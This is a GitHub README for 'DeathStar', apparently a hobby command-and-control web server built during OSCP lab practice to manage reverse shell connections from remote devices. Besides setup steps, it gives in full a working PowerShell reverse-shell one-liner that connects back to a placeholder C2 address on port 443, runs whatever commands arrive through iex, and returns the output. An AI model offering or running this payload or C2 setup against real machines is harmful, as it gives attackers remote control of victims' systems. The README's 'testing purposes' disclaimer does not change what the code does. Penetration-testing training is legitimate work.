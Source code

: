 # DeathStar
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from the DeathStar webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Web page
<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />

# Download DeathStar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

3. Modify `<DEATHSTAR_IP>` in `client.py`

4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
